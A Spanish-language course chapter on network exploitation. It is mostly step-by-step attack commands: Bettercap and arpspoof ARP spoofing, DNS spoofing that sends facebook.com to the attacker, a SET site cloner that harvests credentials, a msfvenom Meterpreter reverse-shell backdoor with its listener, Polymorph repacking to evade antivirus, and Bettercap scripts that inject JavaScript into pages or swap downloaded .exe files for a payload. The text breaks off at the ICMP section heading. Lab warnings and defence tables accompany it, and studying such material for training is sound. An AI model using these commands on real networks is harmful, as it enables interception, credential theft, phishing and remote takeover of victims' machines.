

| **Inicio**         | **atrás 7**                                                  | **Siguiente 9**                             |
| ------------------ | ------------------------------------------------------------ | ------------------------------------------- |
| [🏠](../README.md) | [⏪](./2_7_Explotacion_y_hacking_de_vulnerabilidades_web.md) | [⏩](./2_9_Tecnicas_de_Post_Explotacion.md) |

---

## **Índice**

| Temario                                                                                                                 |
| ----------------------------------------------------------------------------------------------------------------------- |
| [71. Man in the middle (MITM)](#71-man-in-the-middle-mitm)                                                              |
| [72. Introducción e instalación de Bettercap](#72-introducción-e-instalación-de-bettercap)                              |
| [73. ARP Spoofing](#73-arp-spoofing)                                                                                    |
| [74. DNS Spoofing](#74-dns-spoofin)                                                                                     |
| [75. Social Engineering Toolkit (SET)](#75-social-engineering-toolkit-set)                                              |
| [76. Instalación Polymorph: Consideraciones](#76-instalación-polymorph-consideraciones)                                 |
| [77. Manipulación de tráfico de red en tiempo real](#77-manipulación-de-tráfico-de-red-en-tiempo-real)                  |
| [78. Polymorph: Manipulación de tráfico ICMP](#78-polymorph-manipulación-de-tráfico-icmp)                               |
| [79. Polymorph: Manipulación de tráfico MQTT](#79-polymorph-manipulación-de-tráfico-mqtt)                               |
| [80. BONUS: Explotando una fallo de seguridad en Windows 10](#80-bonus-explotando-una-fallo-de-seguridad-en-windows-10) |
| [81. DEMO: Explotación avanzada WINREG](#81-demo-explotación-avanzada-winreg)                                           |
| [82. ANEXO: Conferencia sobre la explotación de WINREG](#82-anexo-conferencia-sobre-la-explotación-de-winreg)           |

---

# **Explotacion y hacking de vulnerabilidades en red**

## **71. Man in the middle (MITM)**



### 🔐 ¿Qué es un Ataque Man in the Middle (MITM)?

Un ataque **Man in the Middle** (Hombre en el medio) ocurre cuando un atacante se **interpone en la comunicación entre dos partes** (por ejemplo, tú y una página web) sin que ninguna de las dos lo note.

#### 🧠 Ejemplo simple:

Imagina que estás hablando con tu amigo por carta. Pero hay alguien (el atacante) que intercepta la carta, la lee o la modifica, y luego la reenvía a tu amigo como si nada hubiera pasado.
Tú crees que hablas con tu amigo, pero en realidad alguien más está **escuchando, robando o manipulando el mensaje**.

---

### 🎯 ¿Qué puede hacer un atacante MITM?

1. **Leer mensajes privados**: como contraseñas, tarjetas de crédito, correos.
2. **Modificar la información**: cambiar datos que se envían (por ejemplo, un número de cuenta).
3. **Suplantación de identidad**: hacerse pasar por uno de los dos extremos de la comunicación.

---

### 📡 ¿Cómo se realiza un ataque MITM?

Hay varias técnicas. Algunas comunes son:

#### 1. **ARP Spoofing**

Engaña a los dispositivos en una red local para que piensen que el atacante es el router. Así, el tráfico pasa por el atacante.

#### 2. **DNS Spoofing**

Engaña al sistema para que resuelva un dominio (como facebook.com) con una IP falsa que apunta al atacante.

#### 3. **SSL Stripping**

Quita la capa de seguridad HTTPS y convierte la conexión en HTTP, más fácil de espiar.

---

### ⚙️ ¿Cómo se hace una prueba MITM en un entorno controlado?

> ⚠️ **ADVERTENCIA LEGAL**: Hacer MITM a redes o personas sin permiso es **ILEGAL**. Solo haz esto en redes de laboratorio, con máquinas virtuales o con tu propio entorno controlado.

#### Herramienta popular: **Bettercap**

---

#### 🛠️ Instalación de Bettercap en Linux (Kali recomendado)

1. **Actualizar el sistema**

```bash
sudo apt update && sudo apt upgrade
```

2. **Instalar Bettercap**

```bash
sudo apt install bettercap
```

3. **Verificar instalación**

```bash
bettercap -h
```

Deberías ver la ayuda de comandos de Bettercap.

---

### 🔁 Ejemplo práctico de uso (modo demo o laboratorio)

> Solo hazlo en un entorno seguro (una red local entre dos máquinas virtuales)

#### 1. Ver qué dispositivos hay en tu red:

```bash
sudo bettercap -iface eth0
```

Luego, en la consola de Bettercap:

```bash
net.probe on
```

#### 2. Ver las víctimas:

```bash
net.show
```

#### 3. Realizar ARP Spoofing:

```bash
set arp.spoof.targets [IP DE LA VÍCTIMA]
arp.spoof on
```

#### 4. Escuchar el tráfico (Sniffing):

```bash
net.sniff on
```

#### 5. Opcional – Hacer SSL Stripping:

```bash
https.proxy on
```

---

### 🧪 ¿Cómo probar que funciona?

Desde la máquina víctima, visita sitios HTTP (no HTTPS) y observa si en la máquina atacante aparecen datos como:

- URLs visitadas
- Parámetros de formularios
- Cookies

---

### 🛡️ ¿Cómo protegerse de MITM?

1. Siempre usar **HTTPS** (no HTTP).
2. Verificar certificados de sitios web.
3. Evitar redes Wi-Fi públicas sin VPN.
4. Usar herramientas como **HTTPS Everywhere** o **VPNs**.
5. Mantener tu sistema actualizado.

---

### ✅ Resumen Final:

| Concepto        | Explicación sencilla                           |
| --------------- | ---------------------------------------------- |
| MITM            | Alguien se mete en el medio de tu comunicación |
| Qué puede hacer | Espiar, modificar o suplantar                  |
| Herramientas    | Bettercap, Wireshark, mitmproxy                |
| Instalación     | Fácil en Kali o Linux usando `apt`             |
| Legalidad       | Solo en entornos de prueba con permiso         |

---

[🔼](#índice)

---

## **72. Introducción e instalación de Bettercap**

### 🧠 ¿Qué es Bettercap?

**Bettercap** es una herramienta de línea de comandos para realizar **auditorías de red, sniffing, MITM, ataques a protocolos, y análisis de tráfico en tiempo real**.

Fue creada como una versión mejorada de **Ettercap**, de ahí su nombre ("Better-cap").

---

### 🎯 ¿Para qué se usa Bettercap?

- Detectar dispositivos en la red (escaneo).
- Interceptar tráfico (sniffing).
- Suplantar identidades de red (ARP spoofing).
- Inyectar código en páginas web.
- Realizar SSL Stripping (eliminar HTTPS).
- Capturar credenciales, cookies, etc.
- Auditar protocolos como HTTP, HTTPS, DNS, FTP, etc.

---

### 🧪 Ejemplo fácil de entender

Imagina que estás conectado al Wi-Fi de un café. Si alguien usara Bettercap en esa red:

- Podría **ver qué páginas visitas**.
- Si entras a una página HTTP, podría **leer todo lo que escribes**, como usuario y contraseña.
- Incluso, podría **redirigirte a páginas falsas** (como un Facebook falso).

Por eso esta herramienta es útil **en ciberseguridad**, para detectar y protegerse de este tipo de ataques.

---

### ⚠️ Legalidad y ética

- ✅ Usar Bettercap en un **laboratorio de pruebas**, red local propia o con **permiso explícito**.
- ❌ Nunca usarlo en redes ajenas o públicas sin autorización. Es **ilegal** y **antiético**.

---

### 🛠️ Instalación de Bettercap en Linux (Kali o Ubuntu)

#### ✅ Requisitos previos

- Tener Linux (Kali, Parrot OS o Ubuntu de preferencia).
- Acceso root o usar `sudo`.
- Conexión a Internet.

---

#### 🔽 Opción 1: Instalación desde repositorio en Kali Linux

##### 🔧 Paso 1: Actualizar el sistema

```bash
sudo apt update && sudo apt upgrade -y
```

##### 🔧 Paso 2: Instalar Bettercap

```bash
sudo apt install bettercap -y
```

##### 🔧 Paso 3: Verificar la instalación

```bash
bettercap -h
```

Te debería aparecer el menú de ayuda con todos los comandos de Bettercap.

---

#### 🔽 Opción 2: Instalación desde código fuente (para otras distribuciones)

##### 1. Instala Go (lenguaje en el que está hecho Bettercap)

```bash
sudo apt install golang -y
```

##### 2. Configura el entorno de Go

```bash
export GOPATH=$HOME/go
export PATH=$PATH:$GOPATH/bin
```

##### 3. Descarga e instala Bettercap

```bash
go install github.com/bettercap/bettercap@latest
```

##### 4. Ejecuta Bettercap

```bash
~/go/bin/bettercap -h
```

---

### 💻 Uso básico de Bettercap

#### 🔌 Iniciar Bettercap en tu interfaz de red

Primero, identifica tu interfaz de red (por ejemplo, `eth0` o `wlan0`):

```bash
ip a
```

Ahora inicia Bettercap en esa interfaz:

```bash
sudo bettercap -iface wlan0
```

---

#### 🔍 Escanear la red

Dentro de la consola de Bettercap escribe:

```bash
net.probe on
```

Esto hará que Bettercap busque dispositivos conectados a tu red.

Luego, para ver los dispositivos:

```bash
net.show
```

---

### 🧬 Realizar un MITM (solo en entorno de prueba)

1. Selecciona una víctima:

```bash
set arp.spoof.targets 192.168.0.105
```

2. Activa el ataque:

```bash
arp.spoof on
net.sniff on
```

Ahora estarás en el medio de la comunicación entre la víctima y el router.

---

### 📌 Tips adicionales

| Comando   | Acción                            |
| --------- | --------------------------------- |
| `help`    | Ver lista de módulos              |
| `modules` | Ver todos los módulos disponibles |
| `quit`    | Salir de Bettercap                |
| `clear`   | Limpiar consola                   |

---

### 🧪 Laboratorio recomendado (opcional)

Puedes hacer tus pruebas con 2 máquinas virtuales:

- Máquina 1: Kali Linux con Bettercap.
- Máquina 2: Windows o Ubuntu como víctima.
- Conéctalas a la misma red (modo puente o red interna en VirtualBox).

---

### ✅ Conclusión

| Aspecto            | Descripción                                           |
| ------------------ | ----------------------------------------------------- |
| ¿Qué es Bettercap? | Herramienta para análisis y ataque de red (como MITM) |
| ¿Para qué sirve?   | Interceptar tráfico, suplantar, analizar protocolos   |
| ¿Es legal?         | Solo en entornos controlados y con permiso            |
| ¿Cómo instalar?    | Muy fácil con `apt install bettercap` en Kali Linux   |
| ¿Cómo se usa?      | Con comandos simples desde su consola integrada       |

---

[🔼](#índice)

---

## **73. ARP Spoofing**

### 🧠 ¿Qué es ARP Spoofing?

**ARP Spoofing** (o ARP Poisoning) es una técnica utilizada en redes locales para engañar a los dispositivos, haciéndoles creer que el atacante es otro dispositivo (por lo general el **router**). Esto permite interceptar, modificar o redirigir el tráfico de la víctima.

---

### 📡 ¿Qué es ARP?

**ARP (Address Resolution Protocol)** se usa para relacionar una **IP** con una **MAC** (dirección física de red).

#### Ejemplo:

Cuando tu PC quiere enviar datos a `192.168.1.1` (el router), primero pregunta:

> “¿Quién tiene la IP 192.168.1.1? Dime tu MAC”.

El router responde:

> “Esa IP es mía, mi MAC es XX\:XX\:XX\:XX\:XX”.

La PC guarda esa MAC en su **tabla ARP** para no preguntar cada vez.

---

### 🔥 ¿Cómo funciona el ARP Spoofing?

El atacante manda respuestas falsas de ARP a la víctima y al router, diciendo:

> "Hola, yo soy 192.168.1.1 (router), mi MAC es la mía".

Y al router le dice:

> "Hola, yo soy 192.168.1.100 (víctima), mi MAC es la mía".

Ambos dispositivos piensan que el atacante es el otro, así que **todo el tráfico pasa por el atacante**.

---

### 🧪 Laboratorio práctico con máquinas virtuales

#### ✅ Requisitos

- **3 máquinas virtuales** conectadas a la **misma red virtual**:

  - Kali Linux (atacante)
  - Windows o Ubuntu (víctima)
  - Router simulado o simplemente salida a Internet (puede ser el NAT del host)

> Usa **VirtualBox o VMware**. Conéctalas a **Red Interna** o **Adaptador puente**.

---

#### 🛠️ Paso 1: Configurar la red

1. Asegúrate de que las tres máquinas están en la **misma subred**.
2. Desde Kali (atacante), verifica conectividad:

```bash
ping 192.168.1.100     # IP de la víctima
ping 192.168.1.1       # IP del router
```

---

#### 🧰 Paso 2: Instalar herramientas necesarias en Kali

##### Usaremos: **Bettercap** o **arpspoof** (de dsniff)

##### ✅ Opción 1: Usar Bettercap (más moderna)

```bash
sudo apt update
sudo apt install bettercap -y
```

##### ✅ Opción 2: Usar arpspoof

```bash
sudo apt install dsniff -y
```

---

#### 🚀 Paso 3: Realizar ARP Spoofing con Bettercap

##### 🔌 Inicia Bettercap

Primero, identifica tu interfaz:

```bash
ip a
```

Supón que es `eth0`. Inicia Bettercap:

```bash
sudo bettercap -iface eth0
```

##### 🧠 Dentro de Bettercap

Activa escaneo de red:

```
net.probe on
```

Ver IPs activas:

```
net.show
```

Suponiendo que:

- IP víctima: `192.168.1.100`
- IP del router: `192.168.1.1`

##### 🧬 Configura y activa ARP Spoofing:

```bash
set arp.spoof.targets 192.168.1.100
arp.spoof on
net.sniff on
```

¡Listo! Ahora todo lo que haga la víctima pasará por tu máquina Kali.

---

#### 🧪 Cómo probar que funciona

1. En la máquina víctima, abre un navegador y entra a sitios HTTP (como [http://neverssl.com](http://neverssl.com)).
2. En Kali, verás las peticiones y datos pasando por ti.

---

#### 🐍 Alternativa con `arpspoof`

#### Abre dos terminales en Kali

##### Terminal 1: Engaña a la víctima

```bash
sudo arpspoof -i eth0 -t 192.168.1.100 192.168.1.1
```

##### Terminal 2: Engaña al router

```bash
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.100
```

---

#### 🕵️ Captura el tráfico con Wireshark

Abre Wireshark en Kali:

```bash
sudo wireshark
```

Filtra por `http` o `ip.addr == 192.168.1.100` y podrás ver todo el tráfico.

---

### 🔐 ¿Cómo se protege una víctima?

| Defensa                  | Descripción                                            |
| ------------------------ | ------------------------------------------------------ |
| HTTPS                    | Evita que los datos sean leídos fácilmente             |
| VPN                      | Cifra todo el tráfico                                  |
| Detección ARP            | Herramientas que avisan si hay cambios en la tabla ARP |
| Switch con seguridad ARP | Bloquea cambios sospechosos                            |
| Estática ARP             | En entornos pequeños puedes fijar IP-MAC manualmente   |

---

### ✅ RESUMEN

| Elemento       | Descripción                                         |
| -------------- | --------------------------------------------------- |
| ¿Qué es?       | Engañar a los dispositivos para interceptar tráfico |
| ¿Cómo se hace? | Mandando respuestas falsas de ARP                   |
| Herramientas   | Bettercap, arpspoof (dsniff), Wireshark             |
| Entorno seguro | Máquinas virtuales conectadas a red interna         |
| Legalidad      | Solo en laboratorios o con autorización expresa     |

---

[🔼](#índice)

---

## **74. DNS Spoofin**

### 🧠 ¿Qué es DNS Spoofing?

**DNS Spoofing** (también llamado **DNS Cache Poisoning**) es una técnica que consiste en **engañar a un dispositivo para que resuelva un nombre de dominio (como facebook.com) hacia una IP falsa o maliciosa**.

---

### 🌐 ¿Cómo funciona normalmente el DNS?

Cuando tú escribes `facebook.com` en tu navegador:

1. Tu computadora pregunta al **servidor DNS**:

   > “¿Cuál es la IP de facebook.com?”

2. El servidor DNS responde:

   > “La IP es 157.240.20.35”

3. Tu navegador se conecta a esa IP.

---

### 💥 ¿Qué pasa con DNS Spoofing?

El atacante responde falsamente:

> “facebook.com es 192.168.1.50” (que es su propio servidor falso)

Entonces, la víctima entra a una página **falsa** que **se ve como Facebook**, pero en realidad es **una copia para robar contraseñas**.

---

### 🧪 Laboratorio de DNS Spoofing con máquinas virtuales

#### ✅ Requisitos

- **3 máquinas virtuales**:

  - Kali Linux (Atacante)
  - Windows o Ubuntu (Víctima)
  - Opcional: servidor falso (puede ser la misma Kali o un simple Apache con una web falsa)

> Usa **VirtualBox o VMware**. Conecta las 3 máquinas a la **misma red interna** o **adaptador puente**.

---

#### 🛠️ Paso a paso: instalación y ejecución de DNS Spoofing

##### ✅ Paso 1: Instalar Bettercap en Kali

```bash
sudo apt update
sudo apt install bettercap -y
```

Verifica:

```bash
bettercap -h
```

---

##### ✅ Paso 2: Configura el entorno de red

1. Verifica que Kali (atacante) y la víctima estén en la misma red:

```bash
ip a
```

Por ejemplo:

- Kali: `192.168.1.10`
- Víctima: `192.168.1.20`
- Gateway (router): `192.168.1.1`

Haz ping entre máquinas para verificar la conectividad:

```bash
ping 192.168.1.20
```

---

##### ✅ Paso 3: Crear archivo de suplantación DNS

Crea un archivo llamado `dnsspoof.txt` con el siguiente contenido:

```
facebook.com 192.168.1.10
google.com 192.168.1.10
```

> Aquí estás diciendo: cuando la víctima busque `facebook.com`, respóndele con `192.168.1.10` (la IP del atacante).

---

##### ✅ Paso 4: Iniciar ataque DNS Spoofing con Bettercap

Inicia Bettercap:

```bash
sudo bettercap -iface eth0
```

> Reemplaza `eth0` por la interfaz real si es diferente.

Dentro de la consola de Bettercap, escribe:

```bash
set dns.spoof.domains /ruta/completa/dnsspoof.txt
set dns.spoof.all true
dns.spoof on
set arp.spoof.targets 192.168.1.20   # IP de la víctima
arp.spoof on
net.sniff on
```

Con esto estás:

- Haciendo **ARP Spoofing** para posicionarte como intermediario.
- Suplantando las respuestas DNS.
- Redirigiendo las peticiones de ciertos dominios hacia tu máquina Kali.

---

##### ✅ Paso 5: Configura una página falsa (opcional)

Puedes levantar un servidor web local con un clon de una página:

```bash
sudo apt install apache2 -y
sudo systemctl start apache2
```

Coloca tu página falsa en:

```bash
/var/www/html/index.html
```

Ahora, si la víctima escribe `facebook.com` en el navegador, será redirigida a tu servidor Apache y verá tu página.

---

##### ✅ Paso 6: Probar desde la víctima

1. Abre el navegador en la víctima.
2. Escribe `http://facebook.com`.
3. Si todo funciona, se abrirá **tu servidor falso**, aunque escribiste `facebook.com`.

---

### 🛡️ ¿Cómo protegerse del DNS Spoofing?

| Defensa       | Explicación                                             |
| ------------- | ------------------------------------------------------- |
| HTTPS         | Impide ver/interceptar información aunque te redirijan  |
| DNSSEC        | Protege integridad de respuestas DNS                    |
| VPN           | Redirige y cifra todo el tráfico DNS                    |
| Static DNS    | Usar servidores confiables como Cloudflare o Google DNS |
| Detección ARP | Herramientas que alertan de cambios en la red           |

---

### ✅ Resumen

| Tema              | Detalle                                                       |
| ----------------- | ------------------------------------------------------------- |
| ¿Qué es?          | Engañar a la víctima para que resuelva dominios con IP falsas |
| ¿Para qué?        | Redirigir a sitios falsos, capturar credenciales              |
| Herramienta usada | Bettercap                                                     |
| Entorno de prueba | Máquinas virtuales en red interna                             |
| Legalidad         | Solo con fines educativos y en laboratorios propios           |

---

[🔼](#índice)

---

## **75. Social Engineering Toolkit (SET)**

### 🧠 ¿Qué es el Social Engineering Toolkit (SET)?

**SET** es una herramienta de código abierto creada para realizar **ataques de ingeniería social de manera automatizada**. Es utilizada por pentesters y expertos en ciberseguridad para demostrar cómo los humanos pueden ser el eslabón más débil en la seguridad de una organización.

---

### 🎯 ¿Para qué sirve?

Con SET puedes simular ataques como:

- Crear **páginas falsas de login** (Facebook, Gmail, etc.)
- **Enviar correos electrónicos falsos** con archivos adjuntos maliciosos.
- Lanzar ataques tipo **"clonar sitio web"**.
- Generar **payloads y backdoors** (archivos que abren una conexión remota).
- Realizar ataques **USB HID (teclado virtual)**.
- Capturar credenciales sin necesidad de explotar vulnerabilidades técnicas.

---

### ⚠️ Advertencia ética y legal

❌ **PROHIBIDO usar SET en redes ajenas, personas reales o sin autorización.**

✅ Sólo debe usarse en **laboratorios controlados**, con **máquinas virtuales** y **permiso explícito** si se hace en una empresa.

---

#### 🛠️ Cómo instalar SET en Kali Linux (VM)

Kali Linux ya suele traer SET preinstalado. Pero si no lo tienes, aquí va la instalación:

##### 📦 Paso 1: Actualizar el sistema

```bash
sudo apt update && sudo apt upgrade -y
```

##### 📦 Paso 2: Instalar SET

```bash
sudo apt install set -y
```

##### ▶️ Paso 3: Ejecutar SET

```bash
sudo setoolkit
```

Te aparecerá un menú como este:

```
   The Social-Engineer Toolkit (SET)
   [--] Select from the menu:
    1) Social-Engineering Attacks
    2) Penetration Testing (Fast-Track)
    3) Third Party Modules
    ...
```

---

### 🧪 Laboratorio práctico en máquinas virtuales

##### 🔧 Entorno necesario

| Máquina             | Rol                                   |
| ------------------- | ------------------------------------- |
| Kali Linux          | Atacante con SET                      |
| Windows 10 / Ubuntu | Víctima que accederá al sitio clonado |

- Conéctalas a la **misma red** (modo “red interna” o “adaptador puente”).
- Verifica conectividad con `ping`.

---

### 🔥 Ejemplo práctico: Clonar página de login y capturar credenciales

#### Paso 1: Inicia SET en Kali

```bash
sudo setoolkit
```

#### Paso 2: Navega por el menú

1. Elige: `1) Social-Engineering Attacks`
2. Elige: `2) Website Attack Vectors`
3. Elige: `3) Credential Harvester Attack Method`
4. Elige: `2) Site Cloner`

Ahora te pedirá dos cosas:

- La IP de Kali (servidor web donde se alojará el clon).

  - Por ejemplo: `192.168.1.10`

- El sitio que deseas clonar.

  - Por ejemplo: `https://facebook.com`

SET descargará una copia del sitio y la alojará en tu máquina, pero con un script que captura lo que se escriba en el login.

---

#### Paso 3: Probar desde la máquina víctima

En la máquina víctima, abre el navegador y entra a:

`http://192.168.1.10`

(la IP de Kali Linux)

Verás una copia idéntica de Facebook (o el sitio que hayas clonado). Si la víctima escribe usuario y contraseña, en la terminal de Kali aparecerán las credenciales.

---

### 🧪 Otro ejemplo: Crear un archivo malicioso para enviar por correo

1. SET principal:
   `1) Social-Engineering Attacks`
2. `4) Create a Payload and Listener`
3. `2) Windows Reverse_TCP Meterpreter`
4. Elige el nombre del archivo (ej: `documento.exe`)
5. SET creará el archivo y un listener.

Ahora, si el archivo es ejecutado en la víctima, se abrirá una conexión a Kali (acceso remoto tipo Metasploit).

---

### 📁 ¿Dónde se guardan los datos?

- Páginas clonadas: `/var/www/html`
- Credenciales capturadas: aparecen en consola o archivos temporales
- Payloads generados: en la misma carpeta de SET

---

### 🔐 ¿Cómo defenderse contra este tipo de ataques?

| Defensa                              | Explicación                                         |
| ------------------------------------ | --------------------------------------------------- |
| No hacer clic en enlaces sospechosos | Verifica URLs antes de ingresar datos               |
| Uso de HTTPS                         | Evita páginas clonadas en conexiones inseguras      |
| 2FA (doble autenticación)            | Incluso con contraseña robada, se protege el acceso |
| Antivirus / EDR                      | Detecta ejecutables maliciosos                      |
| Conciencia del usuario               | Simulacros de phishing mejoran la preparación       |

---

### ✅ Resumen

| Tema               | Detalle                                          |
| ------------------ | ------------------------------------------------ |
| ¿Qué es SET?       | Toolkit para ataques de ingeniería social        |
| ¿Instalación?      | `sudo apt install set`                           |
| ¿Ejemplo práctico? | Clonar login de Facebook y capturar credenciales |
| ¿Entorno?          | Máquinas virtuales conectadas en red local       |
| ¿Legal?            | Sólo para prácticas en laboratorio controlado    |

---

[🔼](#índice)

---

## **76. Instalación Polymorph: Consideraciones**

### 🧠 ¿Qué es Polymorph?

**Polymorph** es una herramienta que permite modificar archivos binarios maliciosos para que tengan una **firma única cada vez que se generan**, lo cual ayuda a **evadir los antivirus** mediante técnicas de _polimorfismo_.

👉 **Polimorfismo** significa que el _payload_ cambia de forma (código) sin cambiar su función, para que no sea reconocido por los sistemas de detección tradicionales como antivirus o EDR.

---

### ⚠️ Advertencia legal y ética

- ❌ **No debes usar Polymorph fuera de un entorno de pruebas controlado.**
- ✅ Solo para **laboratorios virtuales educativos o de pentesting con autorización**.
- Usar esta herramienta con fines maliciosos puede tener consecuencias legales graves.

---

### 🧰 Requisitos

- Kali Linux (máquina virtual como atacante)
- Víctima (Windows preferiblemente, máquina virtual)
- Conectadas en **red interna o adaptador puente** para pruebas locales
- Python 3 y `pip` instalados

---

### 🛠️ Paso a paso: Instalación de Polymorph en Kali Linux

#### 📦 Paso 1: Clonar el repositorio

Abre una terminal y ejecuta:

```bash
git clone https://github.com/cryptogenic/Polymorph.git
cd Polymorph
```

#### 🐍 Paso 2: Instalar dependencias

Asegúrate de tener Python 3 y pip instalados:

```bash
sudo apt update
sudo apt install python3 python3-pip -y
pip3 install -r requirements.txt
```

#### 🔐 Paso 3: Verifica el script principal

El archivo principal es:

```bash
polymorph.py
```

Puedes ver su ayuda con:

```bash
python3 polymorph.py -h
```

---

### 🔬 Ejemplo: Aplicar polimorfismo a un payload malicioso

Supongamos que has creado un ejecutable con Metasploit:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o backdoor.exe
```

Ahora lo quieres transformar con Polymorph:

```bash
python3 polymorph.py -i backdoor.exe -o backdoor_poly.exe
```

Esto crea un nuevo archivo `backdoor_poly.exe` con cambios en el código binario para que tenga una **firma completamente distinta**, pero **mantenga el mismo comportamiento**.

---

### 🧪 Pruebas con máquinas virtuales

#### 🖥️ 1. Kali Linux

- Instala y ejecuta Polymorph
- Genera el payload polimórfico
- Configura Metasploit para recibir la conexión:

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run
```

#### 🖥️ 2. Windows (máquina víctima)

- Ejecuta el archivo `backdoor_poly.exe`
- Observa en Kali que se abre una sesión Meterpreter

---

### 📌 Consideraciones importantes

| Consideración       | Detalle                                                                                     |
| ------------------- | ------------------------------------------------------------------------------------------- |
| 🛡️ Antivirus        | Polymorph ayuda a evadir detección básica, pero no garantiza evasión contra EDR avanzados   |
| 🧠 Memoria          | Algunos antivirus detectan por comportamiento, no por firma                                 |
| 🔒 Firmas digitales | El binario final no está firmado, Windows puede mostrar advertencias                        |
| 📥 Envío            | Nunca lo pruebes fuera del laboratorio; simula el envío por correo o USB en entorno cerrado |

---

### 🔐 ¿Cómo defenderse?

| Técnica defensiva        | Explicación                                    |
| ------------------------ | ---------------------------------------------- |
| EDRs avanzados           | Detectan comportamiento en vez de firmas       |
| Antivirus con heurística | Pueden detectar patrones sospechosos           |
| Políticas de ejecución   | Restringir ejecución de archivos no firmados   |
| Segmentación de red      | Minimizar impacto si una máquina se compromete |
| Conciencia del usuario   | No ejecutar archivos desconocidos              |

---

### ✅ Resumen

| Tema              | Detalle                                                     |
| ----------------- | ----------------------------------------------------------- |
| ¿Qué es?          | Herramienta para modificar binarios maliciosos y evadir AVs |
| ¿Dónde se usa?    | En Kali Linux para pruebas en laboratorio controlado        |
| ¿Cómo se instala? | Clonando desde GitHub y usando Python 3                     |
| ¿Ejemplo?         | Modificar `backdoor.exe` generado con msfvenom              |
| ¿Legalidad?       | Solo para entornos de práctica o con permiso legal          |

---

[🔼](#índice)

---

## **77. Manipulación de tráfico de red en tiempo real**

### 🧠 ¿Qué es la manipulación de tráfico de red en tiempo real?

Es una técnica en la que un atacante puede:

- **Ver**, **modificar**, **redirigir** o **bloquear** datos que se están transmitiendo en una red.
- Esto se logra colocándose entre la víctima y el router (**ataque Man-in-the-Middle** o **MITM**).
- Se puede usar para **inyectar código malicioso**, **modificar sitios web**, **reemplazar descargas**, o **robar datos** en tiempo real.

---

### 🔧 Herramientas necesarias

- 🐱 **Bettercap** (principal para interceptar y modificar tráfico)
- 🐍 Python + scapy (opcional para scripts personalizados)
- Kali Linux (como atacante)
- Windows o Linux como máquina víctima
- Las VMs deben estar **en la misma red** (adaptador puente o red interna)

---

### 🛠️ Instalación de Bettercap

#### En Kali Linux (ya viene preinstalado en versiones recientes):

```bash
sudo apt update
sudo apt install bettercap -y
```

Verifica instalación:

```bash
bettercap -h
```

---

#### 🌐 Configuración de red en máquinas virtuales

Supongamos:

| Máquina    | IP           | Rol      |
| ---------- | ------------ | -------- |
| Kali Linux | 192.168.1.10 | Atacante |
| Windows 10 | 192.168.1.20 | Víctima  |
| Router     | 192.168.1.1  | Gateway  |

Verifica conectividad con:

```bash
ping 192.168.1.20
```

---

### 🔥 Ejemplo práctico: Inyectar un script malicioso en tiempo real

#### 🎯 Objetivo:

Cuando la víctima visite cualquier sitio web, **inyectar un script falso** (ej: alerta JavaScript) sin que lo note.

---

#### ✅ Paso 1: Inicia Bettercap

```bash
sudo bettercap -iface eth0
```

> Reemplaza `eth0` con tu interfaz real (`ip a` para verificar).

---

#### ✅ Paso 2: Inicia ataque MITM y sniffing

En la consola interactiva de Bettercap, escribe:

```bash
net.probe on
set arp.spoof.targets 192.168.1.20
arp.spoof on
net.sniff on
```

Esto:

- Te posiciona entre la víctima y el router.
- Comienzas a espiar y controlar el tráfico.

---

#### ✅ Paso 3: Inyectar JavaScript en tiempo real

```bash
set http.proxy.script js_injector
http.proxy on
```

Ahora, en el archivo `~/.bettercap/caplets/js_injector.js` escribe:

```javascript
function onRequest(req, res) {
  res.body = res.body.replace(
    /<\/body>/g,
    "<script>alert('¡Has sido hackeado!');</script></body>"
  );
}
```

Esto hace que, al cargar cualquier sitio web sin HTTPS, se inyecte una alerta JavaScript.

---

#### ✅ Paso 4: Probar en la máquina víctima

1. Entra a un sitio web sin HTTPS, como:
   `http://neverssl.com`

2. Si la inyección funcionó, verás la alerta:

   > “¡Has sido hackeado!”

> ⚠️ No funciona en sitios con **HTTPS** a menos que uses técnicas avanzadas de SSL-stripping (no recomendadas sin autorización).

---

### 🧪 Ejemplo avanzado: Reemplazar un archivo `.exe` o `.zip`

Puedes redirigir descargas para entregar **otro archivo modificado**.

En Bettercap:

```bash
set http.proxy.script file_replace
http.proxy on
```

Crea el archivo `~/.bettercap/caplets/file_replace.js` así:

```javascript
function onResponse(req, res) {
  if (req.url.includes(".exe")) {
    res.body = readFile("/home/kali/archivo_falso.exe");
    res.header["Content-Length"] = res.body.length;
  }
}
```

Esto reemplaza cualquier `.exe` descargado con tu propio archivo (por ejemplo, un payload generado con `msfvenom`).

---

### 📁 Dónde guardar scripts

Por defecto, Bettercap busca scripts en:

```bash
~/.bettercap/caplets/
```

Puedes crear tus propios caplets (.cap) o scripts JS para automatizar manipulaciones.

---

### 🔐 ¿Cómo protegerse?

| Defensa               | Explicación                                    |
| --------------------- | ---------------------------------------------- |
| HTTPS                 | Previene modificaciones al tráfico             |
| VPN                   | Cifra todo el tráfico entre cliente y servidor |
| Detección de MITM     | Alertas por cambios ARP o certificados falsos  |
| Uso de DNSSEC         | Evita suplantación DNS                         |
| Educación del usuario | No usar redes públicas inseguras               |

---

### ✅ Resumen

| Tema              | Detalle                                                  |
| ----------------- | -------------------------------------------------------- |
| ¿Qué es?          | Modificar tráfico en tiempo real entre víctima y router  |
| Herramienta usada | Bettercap (en Kali)                                      |
| Ataque típico     | Inyectar JavaScript, reemplazar archivos, redirigir URLs |
| Requisitos        | 2 máquinas virtuales en red local                        |
| Legalidad         | Solo en laboratorios autorizados                         |

---

[🔼](#índice)

---

## **78. Polymorph: Manipulación de tráfico ICMP**

### 🧠 ¿Qué es ICMP?

